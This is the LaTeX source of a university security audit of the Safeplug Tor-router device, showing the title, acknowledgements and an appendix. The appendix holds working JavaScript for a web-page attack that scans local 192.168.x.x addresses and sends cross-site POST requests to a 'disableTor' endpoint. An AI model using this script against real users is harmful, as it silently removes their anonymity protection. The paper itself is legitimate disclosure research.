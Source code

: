 \documentclass[12pt, letterpaper]{article}
\title{Security Audit of Safeplug}
\author{Annie Edmundson and Anna Kornfeld Simpson}
\begin{document}
\maketitle









\section{Acknowledgements}
We would like to express our gratitude to Josh Kroll for donating a lot of time and his computer to the routing effort.  We also thank whoever left the very nice set of screwdrivers on our desks!

This paper represents our own work in accordance with University regulations.

Anna Kornfeld Simpson and Annie Edmundson



\newpage
\appendix
\section{\\Javascript for Website Attack} \label{App:AppendixA}


\begin{lstlisting}
function go() { 
   var IP_SCANS = 255;
   var prefix = "http://192."
   var SECOND_START = 168;
   var SECOND_END = 168;
   var THIRD_START = 0;
   var THIRD_END = 1;
   var mydate = new Date();
   console.log(mydate.getTime());

   for (var i = SECOND_START; i <= SECOND_END; i++) {
      for (var j = THIRD_START; j <= THIRD_END; j++) {
         for (var k = 0; k < IP_SCANS; k++) 
         {
            var tryip = prefix +  i + "." + j + "." + k;
            var req = new XMLHttpRequest();
            req.open("POST", tryip + "/svc/xspctrl/disableTor", true);
            req.timeout = 1000;
            req.send();
         }
         // COMMENT THIS OUT BEFORE RUNNING LARGE SCANS!
         var mydate2 = new Date();
         console.log(mydate2.getTime() + " " + j);
      }
      var mydate = new Date();
      console.log(mydate.getTime() + " " + i);
   }
}
\end{lstlisting}
\end{document}
